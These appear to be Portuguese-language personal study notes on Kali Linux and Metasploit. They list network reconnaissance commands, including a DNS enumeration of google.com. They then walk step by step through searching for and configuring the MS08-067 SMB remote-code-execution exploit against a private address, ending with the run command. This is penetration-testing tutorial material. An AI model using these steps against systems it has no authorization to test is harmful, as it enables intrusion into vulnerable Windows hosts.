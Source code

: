*** Ferramentas**
*** Encontrar IPs na REDE**
* $netstat -nat

*** Ver meu IP**
* $ifconfig

*** -DNSENUN (Lista DNS)**
* $dnsenum -enum google.com

*** Dicas (Explora uma falha e injeta (Um Payload))**
* -Exploit (Shell, VNC, Meterpreter)
*** ##Comandos**
*** **Start the Kali PostgreSQL Service**
* root@kali:~# service postgresql start

*** **Initialise the Metasploit PostgreSQL Database**
* root@kali:~# msfdb init

*** **Initialise the Metasploit PostgreSQL Database**
* root@kali:~# msfdb init

*** **Inicia po console**
* root@kali:~# msfconsole

*** **Verificar Conexao**
* msf > db_status
* [*] postgresql connected to msf

*** **Fazer Buscas**
* msf > search -h
*** EXEMPLO**
* msf > search cve:2015 type:exploit app:client
* msf > search Internet Explore
* msf > search netapi
* msf > use exploit/windows/smb/ms08_067_netapi 
* msf exploit(ms08_067_netapi) > 
* msf exploit(ms08_067_netapi) > show options

*** **Configurando o Exploit**
* msf exploit(ms08_067_netapi) > set RHOST 10.0.0.3
* RHOST => 10.0.0.3
* msf exploit(ms08_067_netapi) > show options

*** Module options (exploit/windows/smb/ms08_067_netapi):**

*    Name     Current Setting  Required  Description
*    ----     ---------------  --------  -----------
*    RHOST    10.0.0.3         yes       The target address
*    RPORT    445              yes       The SMB service port
*    SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


* Exploit target:

*    Id  Name
*    --  ----
*    0   Automatic Targeting


* msf exploit(ms08_067_netapi) > run (Para Executar)


* -Payload(Payload = Codigo que executa uma tarefa)
* -Framework	




















